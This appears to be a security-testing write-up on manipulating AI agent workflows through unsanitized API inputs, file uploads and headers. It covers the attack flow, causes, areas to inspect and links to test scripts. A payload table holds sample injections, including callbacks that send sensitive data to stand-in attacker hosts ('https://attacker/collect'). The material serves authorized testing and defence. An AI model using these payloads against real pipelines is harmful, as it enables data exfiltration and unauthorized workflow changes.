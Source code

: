 # Workflow Manipulation (AI API vuln input sanitization)

# **BASELINE**

Unsanitized input works:
**Attacker → API → workflow engine → agent → unauthorized workflow change**

**Attack structure:**
1. Attacker finds an input endpoint (API, file, header, param, or workflow).
2. They craft input containing override commands or malformed instructions.
3. The API forwards the input into the workflow without proper validation.
4. The workflow treats the input as instructions and changes execution.
5. The pipeline runs unauthorized steps, leaking data or producing wrong output.

![](https://t10505733.p.clickup-attachments.com/t10505733/856a6e36-ac75-4c11-9cb9-7d7adad86447/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-044334.png)

# **LOGIC OF VULNERABILITY**

**Cause:**
Untrusted inputs control workflow steps without validation or role checks.

**Effect:**
Attacker changes steps, inserts actions, or calls attacker-controlled endpoints.

**Requirements:**
*   Accepts dynamic inputs for step selection
*   Permissive parsing of file contents
*   Reuse of client-supplied metadata as control fields.

**Areas to Inspect:**
*   **Schema validation** → Ensure strict JSON schema, enumerated fields only.
*   **File parsing** → Prevent auto-execution of instructions in files.
*   **Trusted sources** → Only accept workflow triggers and headers from trusted origin.
*   **Callback/step parameters** → Use allowlists for step selection and callbacks.
*   **Chained workflow reuse** → Inspect how previous outputs feed into next steps.

# **LOGIC OF ATTACK METHOD**

1. **Malicious Input Field**
*    Attacker sends crafted input overriding workflow steps and parameters.
*   API forwards unsanitized payload into orchestrator without validation checks.
*   Orchestrator executes attacker-specified workflow step, resulting in data exfiltration.

![](https://t10505733.p.clickup-attachments.com/t10505733/95f2665d-7f67-4281-a060-7fb3cc2a347a/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-055057.png)

 **2. Malicious File Upload**
*   Attacker uploads file containing injected instructions to upload API.
*   Parser naively parses file and merges instructions into runtime.
*   Runtime executes appended instructions, leading to unauthorized actions and exfiltration.

![](https://t10505733.p.clickup-attachments.com/t10505733/bd75e499-fd50-4286-9132-586d857aa75b/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-054706.png)

**3\. Header-based Manipulation**
*   Attacker sets header to override workflow context or step selection.
*   API or composer includes header value into runtime without checks.
*   Orchestrator switches execution path and performs unexpected privileged action.

![](https://t10505733.p.clickup-attachments.com/t10505733/222fdbd4-3c06-445c-b4d3-cf785fbecb51/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-054411.png)
# **PAYLOADS**

| Type | Structure / Example | Trigger Mechanism | Diagram |
| ---| ---| ---| --- |
| Inline command | `{ "task":"execute","data":"override_step_3; exfiltrate_secrets()" }` | Orchestrator uses user-provided data to select next step | User → Parser → Orchestrator |
| File override | `malicious_workflow.json: {"instructions":"skip_validation","call":"`[`https://attacker/cb`](https://attacker/cb)`"}` | Parser appends file instructions into workflow context | File → Parser → Orchestrator |
| Callback injection | `{ "callback":"`[`https://attacker/collect`](https://attacker/collect)`" }` | Workflow posts sensitive data to attacker-controlled callback | Workflow → External API (attacker) |
| Header override | `X-Workflow-Context: override_step_3` | Middleware copies header into runtime context used by orchestrator | Header → Middleware → Orchestrator |

![](https://t10505733.p.clickup-attachments.com/t10505733/18c53956-ee86-42c8-bc31-4b4bd07f6325/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-080601.png)

Payload sample python program:
link - [https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/payload.py](https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/payload.py)

# **PYTHON SCRIPT 1 - ATTACK METHOD**

Working:
1. Parses CLI options and validates provided endpoints and credentials.
2. Sends crafted inline payloads to workflow API for testing.
3. Uploads malicious-style files to upload endpoint for parsing tests.
4. Sends requests with workflow headers to test header handling.
5. Logs responses and flags suspicious behavior for investigator review.

Link:
[https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/exploit\_attack.py](https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/exploit_attack.py)

# **PYTHON SCRIPT 2 - TOOL BASED ATTACK TESTING**

Working:
1. Creates artifacts: requirements, malicious workflow, and poisoned dataset.
2. Writes curl scripts for inline, upload, and header overrides.
3. Produces Burp raw requests and payload lists for import.
4. Includes safe dry-run mode; avoids executing network or scripts.
5. Saves summary JSON and README for authorized lab testing.

Link:
[https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/exploit\_tools.py](https://github.com/imharshitaa/AI-testcases/blob/main/workflow%20pipeline/exploit_tools.py)